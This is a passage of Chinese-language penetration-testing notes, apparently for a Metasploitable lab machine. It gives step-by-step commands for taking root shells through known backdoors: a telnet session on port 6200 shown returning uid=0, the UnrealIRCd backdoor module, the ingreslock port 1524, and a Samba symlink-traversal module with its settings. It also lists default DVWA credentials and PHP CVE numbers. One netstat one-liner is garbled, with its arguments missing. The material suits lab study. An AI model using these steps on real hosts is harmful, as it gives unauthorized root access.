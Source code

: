     ^]

    telnet> quit

telnet 192.168.99.131 6200

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

id;

uid=0(root) gid=0(root)

## 6667 端口上运行着 UnreaIRCD IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor
getshell

## ingreslock 后门

telnet 192.168.99.131 1524

## smb 后门

配置为文件权限可写同时"wide links" 被允许（默认就是允许），同样可以被作为后门而仅仅是文件共享。下面例子里，metasploit 提供一个攻击模块，允许接入一个 root 文件系统通过一个匿名接入和可写入的共享设置。
smbclient -L //192.168.99.131
use auxiliary/admin/smb/samba_symlink_traversal
set RHOST 192.168.99.131
set SMBSHARE tmp
exploit

smbclient //192.168.99.131/tmp
getshell

## dwa 后门

Default username = admin
Default password = password

##php 漏洞
CVE–2012-1823 和 CVE–2012-2311

# 查看页面访问排名前十的 IP

netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn

http://bobao.360.cn/ctf/learning/210.html  
https://bbs.ichunqiu.com/thread-25092-1-1.html?from=aqzx2
